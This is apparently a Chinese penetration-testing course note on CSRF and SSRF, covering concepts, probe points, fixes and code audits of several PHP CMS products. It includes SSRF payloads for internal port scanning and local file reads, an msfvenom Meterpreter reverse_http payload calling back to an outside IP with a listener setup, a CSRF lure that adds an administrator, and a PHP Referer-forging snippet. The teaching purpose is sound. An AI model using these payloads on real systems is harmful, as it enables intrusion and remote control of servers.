




总览
知识点
1、CSRF- 原理&危害&探针&利用等
2、SSRF- 原理&危害&探针&利用等
3、CSRF&SSRF- 黑盒下漏洞探针点
详细点–认知
CSRF

概念
CSRF全称：Cross- site request forgery，即，跨站请求伪造，也被称为 “One Click Attack” 或 “Session Riding”，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。
举个生活中的例子：就是某个人点了个奇怪的链接，自己什么也没输，但自己的qq号或其他的号就被盗了。即该攻击可以在 受害者不知情 的情况下 以受害者名义伪造请求 ， 执行恶意操作 ，具有很大的危害性。
CSRF的攻击前准备：
- 知道对方是谁（具体到哪个管理员）
- 对数据包构造进行复现（复现出添加管理员的数据包，使用OWASP-CSRFTester模拟导出数据包）
- 对方是否会访问这个地址（一访问即触发）
CSRF的攻击过程两个条件：
- 目标用户已经登录了网站，能够执行网站的功能。(准备好操作的权限)
- 目标用户访问了攻击者构造的URL。(攻击者伪造数据包放在网址下，例如添加管理员账密的数据包，访问即添加)
CSRF安全问题黑盒怎么判断：
- 看验证来源(同源策略) - 修复
- 点击跳转时，数据包的 Referer字段 带着你从哪个网页来的信息
- 同源策略：非本站的数据包（直接指定是不是来源于本站数据包）判定为非法来源，不过不安全，来源数据包可以被BP修改
- 鉴定同源策略的方法：
- 看凭据有无token - 修复
- token是每个操作的标识，每一个操作token会立刻更改
- 有无token的区别：数据包
- 关键点：带token后即使构造数据包也没有用
- 看关键操作有无验证 - 修复
CSRF安全问题白盒怎么审计：
SSRF
如果对方存在接收值，并且把值进行资源访问，那么就可能存在SSRF。

概念
SSRF(Server- Side Request Forgery):
- 服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
- 一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。
- （正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）
- SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
- 总结：命令发到服务端，服务端再将命令进行服务端本地发送执行
比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。
图片上传分为两种
1.本地上传（用户上传到服务器）
2.远程加载上传（服务器加载远程图片时也是一种上传）
远程加载的过程：
1.访问图片地址（服务器访问远程地址）
2.下载图片到服务器
如果拿下cmd，使用cmd下载命令将后门插入对方服务器，上线木马
- SSRF黑盒可能出现的地方：
- 社交分享功能：获取超链接的标题等内容进行显示
- 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
- 在线翻译：给网址翻译对应网页的内容
- 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片
- 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验
- 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试
- 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作
- 数据库内置功能：数据库的比如mongodb的copyDatabase函数
- 邮件系统：比如接收邮件服务器地址
- 编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等
- 未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞
一些的url中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……
12.从远程服务器请求资源（upload from url 如discuz！；import & expost rss feed 如web blog；使用了xml引擎对象的地方 如wordpress xmlrpc.php）
SSRF白盒可能出现的地方：
- 功能点抓包指向代码块审计
- 功能点函数定位代码块审计
SSRF常见安全修复防御方案：
- 禁用跳转
- 禁用不需要的协议
- 固定或限制资源地址
- 错误信息统一信息处理
系列内容点：
- CSRF&SSRF&原理&利用&协议等
- CSRF&SSRF&黑盒&审计&修复等
黑盒(功能点)
CSRF- 原理&后台自动添加管理员
- 案例说明：小迪在登录后台管理自己网站的时候，突然群里给小迪说阿祖又说爱上别人了，随后给我发了个URL链接，小迪直接点了进去，GG！
小迪的网站：http://test.xiaodi8.com/
发送的URL：http://47.94.236.117/add.html
利用流程：
1、获取目标的触发数据包
2、利用CSRFTester构造导出
3、诱使受害者访问特定地址触发
SSRF- 原理&服务&协议&内网&漏洞
1、服务探针：访问特殊的服务器内本地的端口，看对应功能是不是开放的（报错、卡顿都表示存在）
http://127.0.0.1:8081/
http://127.0.0.1:3306/
2、协议玩法：（更多玩法见上图）
file:///D:/www.txt => 收集敏感文件是否存在
dict://127.0.0.1 :3306/info
ftp://192.168.46.148:21
3、内网扫描：
请求卡顿时，这个测点八成是存在的
http://192.168.46.148:8080
4、漏洞利用：
生成：
msfvenom - p windows/meterpreter/reverse_http LHOST=47.94.236.117 LPORT=6688 - f exe - o xx.exe
|
监听：
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 6688
run
|
下载：
执行：


SSRF- 某实际案例测试演示(功能点)
基于上述的SSRF的漏洞原理，漏洞探针开展黑盒思路分析那些可能存在
能利用则高危，不能利用则变成信息收集。
白盒(代码层面)
CSRF
工具
CSRFTester：
必须使用8008端口，这样子才能抓取表单数据包
最终会抓取Get或者Post数据包，抓取的数据包可以导出，修改后放在服务器上，等待管理员登录时访问该数据包，就能添加新管理员。
如果有验证，就不能使用此方法。
复现：直接复现
成功->有漏洞
没有->代码->缺陷过滤（绕过）->有漏洞
失败->代码->完整过滤->没有
其他漏洞：
关键函数和应用功能
无验证
SCMSFH源码当中的admin.php，里面的编辑函数，用于添加管理员
拦截添加管理员的数据包，并且修改数据包的数据，添加自己想要的管理员
在真管理员登录时，诱导真管理员点击自己预先准备好的链接，等待他点击时就能添加管理员了
因为没有验证，可以直接添加管理员
if($action=="edit"){
if($A4_0x==0 && $_SESSION["A_id"]!=$A_id){
die("{\"msg\":\"请勿编辑其他管理员！\"}");
}
$A_head=$_POST["A_head"];
$A_login=$_POST["A_login"];
$A_pwd=$_POST["A_pwd"];
$A0_0=intval($_POST["A0_0"]);
$A1_0=intval($_POST["A1_0"]);
$A1_1=intval($_POST["A1_1"]);
$A1_2=intval($_POST["A1_2"]);
$A1_3=intval($_POST["A1_3"]);
$A1_4=intval($_POST["A1_4"]);
$A1_5=intval($_POST["A1_5"]);
$A2_0=intval($_POST["A2_0"]);
$A2_1=intval($_POST["A2_1"]);
$A2_2=intval($_POST["A2_2"]);
$A2_3=intval($_POST["A2_3"]);
$A3_0=intval($_POST["A3_0"]);
$A3_1=intval($_POST["A3_1"]);
$A3_2=intval($_POST["A3_2"]);
$A3_3=intval($_POST["A3_3"]);
$A3_4=intval($_POST["A3_4"]);
$A4_0=intval($_POST["A4_0"]);
$A4_1=intval($_POST["A4_1"]);
$A4_2=intval($_POST["A4_2"]);
$A5_0=intval($_POST["A5_0"]);
$A5_1=intval($_POST["A5_1"]);
$A5_2=intval($_POST["A5_2"]);
$A5_3=intval($_POST["A5_3"]);
$A6_0=intval($_POST["A6_0"]);
$A_part="A0_0:$A0_0,A1_0:$A1_0,A1_1:$A1_1,A1_2:$A1_2,A1_3:$A1_3,A1_4:$A1_4,A1_5:$A1_5,A2_0:$A2_0,A2_1:$A2_1,A2_2:$A2_2,A2_3:$A2_3,A3_0:$A3_0,A3_1:$A3_1,A3_2:$A3_2,A3_3:$A3_3,A3_4:$A3_4,A4_0:$A4_0,A4_1:$A4_1,A4_2:$A4_2,A5_0:$A5_0,A5_1:$A5_1,A5_2:$A5_2,A5_3:$A5_3,A6_0:$A6_0,";
if($A_login!=""){
if(preg_match('/<|\(|\*|--|#| |\'|"|\.\//i', $A_login)){
die("{\"msg\":\"用户名含有特殊字符，请重新输入\"}");
}
if($A4_0x==1){
if($A_pwd!=""){
mysqli_query($conn, "update sl_admin set
A_head='$A_head',
A_login='$A_login',
A_part='$A_part',
A_pwd='".md5($A_pwd)."'
where A_id=".$A_id);
}else{
mysqli_query($conn, "update sl_admin set
A_head='$A_head',
A_login='$A_login',
A_part='$A_part'
where A_id=".$A_id);
}
}else{
if($A_pwd!=""){
mysqli_query($conn, "update sl_admin set A_head='$A_head',A_pwd='".md5($A_pwd)."' where A_id=".$A_id);
}else{
mysqli_query($conn, "update sl_admin set A_head='$A_head' where A_id=".$A_id);
}
}
mysqli_query($conn, "insert into sl_log(L_aid,L_time,L_add,L_ip,L_title) values(".$_SESSION["A_id"].",'".date('Y-m-d H:i:s')."','".$_SESSION["add"]."','".getip()."','编辑管理员')");
die("{\"msg\":\"success\",\"id\":\"".$A_id."\"}");
}else{
die("{\"msg\":\"请填全信息\"}");
}
}
|
有验证
zblog cms，添加用户时出现来源验证，但没有验证token来源
地址：http:
分析：cmd.php => act=MemberPst csrfToken=1930e15cdc4bda27f3fafc8d7915f214
cmd.php
case 'MemberPst':
CheckIsRefererValid(); => 告诉网页自己的来源(单词语义)
PostMember(); =>
$zbp->BuildModule();
$zbp->SaveCache();
$zbp->SetHint('good');
Redirect('cmd.php?act=MemberMng');
break;
function CheckIsRefererValid()
{
global $zbp;
$flag = CheckCSRFTokenValid();
if ($flag && $zbp->option['ZC_ADDITIONAL_SECURITY']) {
$flag = CheckHTTPRefererValid();
}
if (!$flag) {
$zbp->ShowError(5, __FILE__, __LINE__);
exit;
}
}
function CheckHTTPRefererValid()
{
global $bloghost;
$referer = GetVars('HTTP_REFERER', 'SERVER');
if (trim($referer) === '') {
return true;
}
$s = $bloghost;
$s = str_replace(':80/', '/', $s);
$s = str_replace(':443/', '/', $s);
if (stripos($referer, $s) === false) {
return false;
}
return true;
}
|
来源检测：
1.直接伪造-修改数据包referer
2.传入伪造-尝试在目标网站寻找可以上传的地方，上传数据包文件，取得当前同域名访问地址
POST请求
function send_post($url, $post_data) {
$postdata = http_build_query($post_data);
$options = array(
'http' => array(
'method' => 'POST',
'header' => 'REFERER: http://location:8081/2.html',
'content' => $postdata,
'timeout' => 15 * 60
)
);
$context = stream_context_create($options);
$result = file_get_contents($url, false, $context);
return $result;
}
$post_data = array(
'username' => 'stclair2201',
'password' => 'handan'
);
send_post('https://www.jb51.net', $post_data);
|
SSRF
其它漏洞
关键函数和应用功能
不用挖，看有没有检测即可。
它是随机的
从功能追代码，从代码追功能
思考方向
1.特定漏洞功能->代码段分析审计
2.特定漏洞函数->测试对应功能判断
yzcms
这个CMS的关键节点在于添加采集节点
功能点：
添加采集节点后，测试采集时能采集到服务器的相关信息(存在SSRF)
测试采集节点：仅仅负责展示
添加采集节点：负责添加关键的采集节点的URL信息，还有采集的标签始末信息
public function add() {
if(isset($_POST['dosubmit'])) {
if(!$_POST['urlpage']) showmsg('网址配置不能为空！');
$res = D('collection_node')->insert($_POST);
if($res){
showmsg(L('operation_success'), U('init'), 1);
}else{
showmsg(L('operation_failure'));
}
}else{
include $this->admin_tpl('collection_node_add');
}
}
public function collection_test() {
$id = isset($_GET['id']) ? intval($_GET['id']) : 0;
if(!$id) showmsg(L('lose_parameters'));
$data = D('collection_node')->where(array('nodeid' => $id))->find();
if($data['urlpage'] == '') showmsg('网址配置不能为空！', 'stop');
if($data['sourcetype'] == 1){
$url = str_replace('(*)', $data['pagesize_start'], $data['urlpage']);
}else{
$url = $data['urlpage'];
}
$url_start = $data['url_start'];
$url_end = $data['url_end'];
if($url_start=='' || $url_end=='') showmsg('列表区域配置不能为空！', 'stop');
$content = collection::get_content($url);
$content = collection::get_sub_content($content, $url_start, $url_end);
if($content){
if($data['sourcecharset'] == 'gbk') $content = array_iconv($content);
$content = collection::get_all_url($content, $data['url_contain'], $data['url_except']);
$articleurl = isset($content['url'][0]) ? $content['url'][0] : '';
if(!empty($articleurl)){
$article = collection::get_content($articleurl);
$article = collection::get_filter_html($article, $this->get_config($data));
if($data['sourcecharset'] == 'gbk') $article = array_iconv($article);
}else{
$article = '列表规则错误！';
}
}else{
$article = '列表规则错误！';
}
include $this->admin_tpl('collection_test');
}
public static function get_content($url) {
self::$url = $url;
$content = '';
if (extension_loaded('curl')) {
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
curl_setopt($ch, CURLOPT_HEADER, 0);
$content = curl_exec($ch);
curl_close($ch);
} else {
$content = @file_get_contents($url);
}
return trim($content);
}
|
功能点-采集 审计
采集添加->测试->抓包->代码->远程请求资源操作(函数)
函数-功能 审计
file_get_contents（造成SSRF的关键函数）
 wechat
wechat alipay
alipay